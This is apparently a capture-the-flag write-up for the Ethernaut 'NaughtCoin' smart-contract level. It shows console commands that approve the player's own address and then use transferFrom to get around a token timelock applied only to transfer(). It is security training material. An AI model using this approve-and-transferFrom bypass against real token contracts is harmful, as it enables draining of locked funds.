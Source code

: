 # NaughtCoin

# Problem Statement
```
NaughtCoin is an ERC20 token and you're already holding all of them. The catch is that you'll only be able to transfer them after a 10 year lockout period. Can you figure out how to get them out to another address so that you can transfer them freely? Complete this level by getting your token balance to 0.

Things that might help
- The ERC20 Spec
- The OpenZeppelin codebase
```

# Solution

First check the `player` token balances and allowances.
```
Number(await contract.balanceOf(player))
// returns 1000000000000000000000000
Number(await contract.allowance(player, player))
// returns '0'
```
This means the player address itself does not have allowance to spend their own tokens. So give the approval access to the player address.
```
await contract.approve(player, '1000000000000000000000000')
Number(await contract.allowance(player, player))
// now returns 1000000000000000000000000
```
The key thing to note is that the NaughtCoin contract did not implement certain functions specifically the `approval`, `transferFrom`, and allowance methods with the `lockTokens` modifier checker. Because of this the attacker can use the combination of approval+transferFrom to transfer them out of the contract.
```
await contract.transferFrom(player, "0xANY_ADDRESS", '1000000000000000000000000')
```

We've completed this lesson!

# Key Learnings
- When interfacing with contracts or implementing an ERC interface, implement all available functions if possible.
